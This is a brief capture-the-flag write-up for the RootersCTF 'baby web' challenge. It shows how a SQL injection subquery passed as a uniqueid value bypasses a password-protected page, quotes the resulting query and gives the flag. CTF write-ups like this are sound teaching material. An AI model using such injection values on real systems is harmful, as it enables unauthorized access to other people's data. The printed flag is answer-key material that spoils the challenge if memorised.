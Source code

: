# baby web

## Web - Points: 450

> <p>My junior dev just set up a password protected webpage. Can you get in?</p>
>
>  
>
> https://babyweb.rootersctf.in/
>
> 
>
> 
>
> **Author: @mr_goron**
>

SQL injection of `(select uniqueid from users limit 1)` performs a subquery to get a valid id and results in the following query:

`SELECT * FROM users WHERE uniqueid=(select uniqueid from users limit 1)`

flag: `rooters{J00_kN0W_5QL_1nJ3c710n}ctf`